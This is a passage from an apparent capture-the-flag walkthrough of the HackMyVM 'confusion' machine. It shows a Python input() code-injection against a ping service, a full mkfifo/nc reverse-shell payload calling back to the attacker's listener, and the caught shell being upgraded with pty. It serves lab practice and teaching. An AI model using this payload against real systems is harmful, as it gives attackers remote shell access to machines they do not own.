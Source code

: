 {% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/confusion]
└─# nc 10.10.10.15 32145
Welcome To The My Magic World

How many times you want to ping?: 1
PING localhost(localhost (::1)) 56 data bytes
64 bytes from localhost (::1): icmp_seq=1 ttl=64 time=0.074 ms
{% endhighlight %}

Obviously we want to break it, so let's try:

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/confusion]
└─# nc 10.10.10.15 32145
Welcome To The My Magic World

How many times you want to ping?: 1 && id
Traceback (most recent call last):
  File "/opt/ping.py", line 7, in <module>
    no_of_packets = int(input("How many times you want to ping?: "))
  File "<string>", line 1
    1 && id
       ^
SyntaxError: invalid syntax
{% endhighlight %}

So, we can see it's running a python script (/opt/ping.py), so we should try python payloads. After a bit I get a shell:

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/confusion]
└─# nc 10.10.10.17 32145
Welcome To The My Magic World

How many times you want to ping?: eval("__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.2 1234 >/tmp/f')")
{% endhighlight %}

Note different box IP because I broke it a few times.

### First user

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/confusion]
└─# nc -nvlp 1234

listening on [any] 1234 ...
connect to [10.10.10.2] from (UNKNOWN) [10.10.10.15] 34812
/bin/sh: 0: cant access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
iamroot@confusion:/$
{% endhighlight %}

Some enumeration leads us to this:
